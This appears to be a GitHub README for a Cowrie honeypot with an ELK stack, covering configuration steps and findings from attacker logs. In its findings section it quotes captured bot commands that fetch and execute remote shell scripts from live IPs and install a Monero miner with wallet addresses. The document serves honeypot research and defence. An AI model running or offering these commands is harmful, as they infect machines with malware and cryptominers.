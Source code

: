 # custom cowrie installation with ELK stack

Installation based on:

https://github.com/cowrie/cowrie

"Cowrie is a medium to high interaction SSH and Telnet honeypot designed to log brute force attacks and the shell interaction performed by the attacker. In medium interaction mode (shell) it emulates a UNIX system in Python, in high interaction mode (proxy) it functions as an SSH and telnet proxy to observe attacker behavior to another system."

This repo shows the custom configuration I used to setup the "ELK Stack" (Elasticsearch, Logstash and Kibana = ELK) together with Cowrie, since some steps were not covered by the official documentation.

Access to the ELK stack was realized by ssh port forwarding local ports.

## installation steps for ELK stack not covered by tutorial

original instructions:

https://cowrie.readthedocs.io/en/latest/elk/README.html

nginx was not needed, since only ssh port forwarding was used to access kibana!

### jvm configurations

jvm specs had to be reduced to work on a "weak" machine, see configs, e.g. in the [jvm.options](logstash/jvm.options) file and the 
[reduceram.options](etc/elasticsearch/jvm.options.d/reduceram.options) file,
e.g. only using

```
-Xms512m
-Xmx512m
```

### ufw (uncomplicated firewall)

to avoid accidentally serving any misconfigured ports, ufw was used to protect the machine running Cowrie and the ELK stack.

allow for "real" ssh port and the "fake" ssh port and telnet port served by cowrie
```
apt update && apt upgrade -y && apt install -y ufw && \
ufw allow 22/tcp  && \
ufw allow 23/tcp  && \
ufw enable 
```

### give correct rights to logstash

for logstash to work correctly, the following commands were used:

```
mkdir /usr/share/logstash/logs && \
chown logstash:logstash /usr/share/logstash/logs && \
mkdir /usr/share/logstash/data && \
chown logstash:logstash /usr/share/logstash/data
```

### start services

```service elasticsearch start; service logstash start; service filebeat start; service kibana start```

### stop services

```service elasticsearch stop; service logstash stop; service filebeat stop; service kibana stop```

### make Cowrie resemble Raspberry Pi at login

[cowrie.cfg](home/cowrie/cowrie/etc/cowrie.cfg) shows which settings were used to resemble a Raspberry Pi ssh banner.

[userdb.txt](home/cowrie/cowrie/etc/userdb.txt) is also showing the used default Raspberry Pi login credentials.

### start cowrie as user cowrie and watch logs every 10 seconds

```
sudo su - cowrie
/home/cowrie/cowrie/bin/cowrie start
watch -n 10 tail /home/cowrie/cowrie/var/log/cowrie/cowrie.json
```

when the rest of the original instructions were followed, you could see the log data of Cowrie visualized in Kibana.

## Some interesting findings while using cowrie

If one looks at the logs of what bots tried to run after a successfull login via ssh, one can see, that most try to install some crypto miners, e.g. for monero.

Some examplary commands, resulting from running ```grep -r "cowrie.command.input" | cut -d ':' -f2- | jq .input | tr -d '"'``` on all the json-log files, which searches for all events where something/someone logged in entered a command into Cowrie:

```
uname -a
cat /proc/cpuinfo
ps | grep '[Mm]iner'
ps -ef | grep '[Mm]iner'
ls -la /dev/ttyGSM* /dev/ttyUSB-mod* /var/spool/sms/* /var/log/smsd.log /etc/smsd.conf* /usr/bin/qmuxd /var/qmux_connect_socket /etc/config/simman /dev/modem* /var/config/sms/*
echo Hi | cat -n
wget -qO - http://71.127.148.69/.x/1sh | sh > /dev/null 2>&1 &
rm -rf /var/run/1sh; wget -c http://71.127.148.69/.x/1sh -P /var/run && sh /var/run/1sh &
wget -qO - http://71.127.148.69/.x/2sh | sh > /dev/null 2>&1 &
rm -rf /tmp/2sh; wget -c http://71.127.148.69/.x/2sh -P /tmp && sh /tmp/2sh &
curl http://71.127.148.69/.x/3sh | sh
cd /var/run ; rm -rf tsh ; tftp -g 127.0.0.1 -r tsh ; sh tsh &
```

Interesting here is e.g. the 4th and 5th command, where apparently the script checks if there is already a running process which contains the name "Miner" or "miner".


Another result, going in the same direction: ```grep -r "cowrie.command.input" | cut -d ':' -f2- | jq .input | tr -d '"' | grep -i miner```

```
uname -a; cd /tmp; curl -s -L http://download.c3pool.org/xmrig_setup/raw/master/setup_c3pool_miner.sh | LC_ALL=en_US.UTF-8 bash -s 492cUvVMbMsKpWGoSkTSbzix9Pk2Ho6XUid9vRSFALXjfQS76gyNGjnTh6DTpPHwnBAHDztwbWUGiCfZgkbndYtAMuekPcA; wget http://179.43.175.170/putkite/quickr1n.sh; curl -O http://179.43.175.170/putkite/quickr1n.sh; chmod 777 *; sh quickr1n.sh; echo storytimeDedicated
curl -s -L http://download.c3pool.com/xmrig_setup/raw/master/setup_c3pool_miner.sh | LC_ALL=en_US.UTF-8 bash -s 45dNkjTQGgT77r9AEMyHdCGan5tpuekXaHFhFW99dQ8hUS35oZQEYXddFE52jxVdfUNrAD4ZyZ44BgHfgk5SjHdoLjGdJnQ
```

Since also the downloaded files are saved by Cowrie, one can see, that some are shell scripts, but some are also binary executables:

Result of ```find ./ -type f -exec sh -c "file --brief {}" \;``` in the folder containing the Cowrie downloads:

```
data
ASCII text, with CRLF line terminators
data
empty
data
data
data
OpenSSH RSA public key
data
data
ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, stripped
data
data
ASCII text
ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), statically linked, stripped
data
data
ASCII text
ASCII text
data
ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), statically linked, stripped
```
Where "data" and "ASCII" text are scripts or shell commands.
`

Also, the following well known Raspi malware was seen in the Downloads:

https://www.virustotal.com/gui/file/6d1fe6ab3cd04ca5d1ab790339ee2b6577553bc042af3b7587ece0c195267c9b/community